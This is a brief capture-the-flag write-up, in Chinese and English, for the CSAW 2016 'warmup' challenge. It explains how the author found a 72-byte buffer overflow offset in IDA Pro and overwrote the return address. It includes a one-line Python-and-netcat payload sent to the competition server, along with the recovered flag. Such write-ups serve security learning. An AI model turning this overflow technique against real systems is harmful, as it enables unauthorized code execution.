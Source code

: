 #warmup

基本的buffer overflow 題，

開IDA pro看

![img](1.jpg)

Find length of the overflow.

-> 72

於是在72個"a"後面塞IDA pro看到的位址：0x400611，

also 0x40060d.

![img](warmup.jpg)

It is 64-bit so that we need to add "\x00" 4 times behind payload. 

payload: ```python -c 'print "a"*72 + "\x11\x06\x40\x00\x00\x00\x00\x00"' | nc pwn.chal.csaw.io 8000```

Flag is ```FLAG{LET_US_BEGIN_CSAW_2016}```
